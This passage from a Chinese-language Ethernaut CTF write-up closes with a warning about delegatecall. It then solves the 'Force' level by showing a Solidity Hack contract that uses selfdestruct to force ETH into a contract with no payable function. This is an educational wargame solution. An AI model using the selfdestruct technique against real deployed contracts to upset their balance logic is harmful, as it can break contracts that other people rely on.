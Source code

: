 ### 笔记

使用delegatecall 是很危险的, 而且历史上已经多次被用于进行 attack vector. 使用它, 你对合约相当于在说 "看这里, -其他合约- 或是 -其它库-, 来对我的状态为所欲为吧". 代理对你合约的状态有完全的控制权. delegatecall 函数是一个很有用的功能, 但是也很危险, 所以使用的时候需要非常小心.

### 总结

## 7. Force

![](https://ethernaut.openzeppelin.com/imgs/BigLevel7.svg)

### 要求
有些合约就是拒绝你的付款,就是这么任性 ¯\_(ツ)_/¯

这一关的目标是使合约的余额大于0

**这可能有帮助:**
- Fallback function
- 有时候攻击一个合约最好的方法是使用另一个合约

### 代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```

### 分析

该函数没有任何 `payable`,看起来不能接收任何转账。怎么做?
Solidity 的 selfdestruct (析构函数) 会强制将该合约剩余的 ETH 转移到 指定地址上，即使对方没有 payable 函数。

### 攻击

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Hack{
    constructor(address payable _target) payable{
        selfdestruct(_target);
    }
}
```
